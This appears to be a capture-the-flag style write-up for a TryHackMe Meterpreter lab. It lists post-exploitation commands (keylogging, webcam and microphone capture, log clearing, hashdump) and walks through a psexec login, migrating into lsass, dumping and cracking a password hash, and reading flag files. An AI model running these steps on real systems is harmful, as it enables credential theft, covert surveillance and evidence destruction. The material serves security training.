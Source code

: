 <!-- TOC -->

- [Metasploit: Meterpreter](#metasploit-meterpreter)
    - [Meterpreter commands](#meterpreter-commands)
    - [Post-Exploitation Challenge](#post-exploitation-challenge)

<!-- /TOC -->

# Metasploit: Meterpreter

[Metasploit: Meterpreter Room](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

## Post-Exploitation Challenge

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | 10.10.107.174 |

Using `msfconsole`:

```bash
db_nmap -A -vv -T4 -oN initial.nmap 10.10.107.174
```

Result: [initial.nmap](initial.nmap)

```bash
user exploit/windows/smb/psexec
hosts -R
set lhost <localhost>
set smbuser ballen
set smbpass Password1
run
```

meterpreter:

```bash
sysinfo
```

> `Computer : ACME-TEST`

> `Domain : FLASH`

```bash
background
```

`msfconsole`:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: speedster`

```bash
sessions 1
```

meterpreter:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::`

Copy

```bash
background
```

`msfconsole`:

```bash
cat > hash
```

Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `Trustno1 (?)`

```bash
sessions 1
```

meterpreter:

```bash
search -f secrets.txt
```

> `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)`

```bash
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

> `My Twitter password is KDSvbsw3849!`

```bash
search -f realsecret.txt
```

> `c:\inetpub\wwwroot\realsecret.txt (34 bytes)`

```bash
cat "c:\inetpub\wwwroot\realsecret.txt"
```

> `The Flash is the fastest man alive`
